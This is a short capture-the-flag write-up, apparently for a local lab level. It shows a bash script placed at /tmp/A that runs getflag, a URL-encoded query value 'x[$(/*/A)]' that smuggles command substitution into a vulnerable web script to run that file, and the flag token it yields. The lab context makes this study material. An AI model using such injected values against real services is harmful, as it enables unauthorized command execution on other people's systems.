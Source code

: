 - cat /tmp/A // executable
```
#!/bin/bash

getflag > /tmp/flag
```
- https://192.168.1.39/?x=x%5B%24(%2F*%2FA)%5D # x[$(/*/A)]
- cat /tmp/flag
```
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

